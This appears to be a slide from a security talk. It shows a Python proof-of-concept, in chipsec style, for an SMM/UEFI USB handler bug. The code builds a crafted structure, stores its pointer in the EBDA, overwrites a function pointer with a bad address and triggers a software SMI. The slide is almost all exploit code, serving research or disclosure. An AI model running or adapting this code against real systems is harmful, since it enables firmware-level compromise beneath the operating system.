

Step 5. Writing PoC
assert usb_protocol != 0, “can’t find EFI_USB_PROTOCOL structure”
assert usb_data != 0, “usb_data pointer is empty”
# prepare our structure struct_addr = mem_alloc(PAGE_SIZE, 0xffffffff)[1]
mem_write(struct_addr, PAGE_SIZE, ‘\x00’ * PAGE_SIZE) # clean the structure
mem_write(struct_addr + 0x0, 1, ‘\x2d’) # subfunction number
mem_write(struct_addr + 0xb, 1, ‘\x10’) # arithmetic adjustment
# save the pointer to the structure in the EBDA
ebda_addr = unpack(‘<H’, mem_read(0x40e, 2))[0] * 0x10
mem_write(ebda_addr + 0x104, 4, pack(‘<I’, struct_addr))
# replace the pointer in the usb_data
bad_ptr = 0xbaddad
func_offset = 0x78
mem_write(usb_data + func_offset, 8, pack(‘<Q’, bad_ptr))
# allow to read the pointer from EBDA
x = ord(mem_read(usb_data + 0x8, 1)) & ~0x10 mem_write(usb_data + 0x8, 1, chr(x))
# stuck it! intr.send_SW_SMI(0, SMI_USB_RUNTIME, 0, 0, 0, 0, 0, 0, 0)